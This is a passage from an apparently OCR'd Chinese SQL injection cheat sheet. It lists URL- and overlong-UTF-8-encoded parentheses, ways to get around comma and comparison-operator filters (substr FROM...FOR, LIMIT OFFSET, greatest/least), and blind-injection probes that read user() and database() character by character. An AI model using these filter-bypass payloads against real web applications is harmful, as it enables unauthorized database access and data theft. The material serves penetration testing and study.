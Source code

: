 **`%e0%80%a8`**

> **右括号)：**

**`%u0029 %uff09`**

**`%c0%29 %c0%a9`**

**`%e0%80%a9`**

**逗号绕过**

**`mid(user() from 1 for 1)`**

**`substr(user() from 1 for 1)`**

**`select substr(user()from -1) from yz ;`**

**`select ascii(substr(user() from 1 for 1)) < 150;`**

> **同时也可以利用替换函数**

**`select left(database(),2)>'tf';`**

**`selete * from testtable limit 2,1;`**

**`selete * from testtable limit 2 offset 1;`**

**比较符号绕过**

**过滤了`>`或者`<`，我们可以用`greatest`或者`least`**

**`greatest(ascii(mid(user(),0,1)),150)`**

**`least(ascii(mid(user(),0,1)),150)`**

**字符串比较函数**

- **strcmp(expr1,expr2) 如果两个字符串是一样则返回0，如果第一个小于第二个则返回 -1**
- **find_in_set(str,strlist) 如果相同则返回1，不同则返回0**

**字符串连接函数**

- **concat(str1,str2) 将字符串首尾相连**
- **concat_ws(separator,str1,str2) 将字符串用指定连接符连接**
- **group_concat()**

#### 运算符

**算数运算符**

**`+ - * /`**

**比较运算符**

**`= <> != > <`**

- **between**
  - **`select database() between 0x61 and 0x7a;`**
  - **`select database() between 'a' and 'z';`**

- **in**
  - **`select ’123‘ in (’12‘)=>0`**
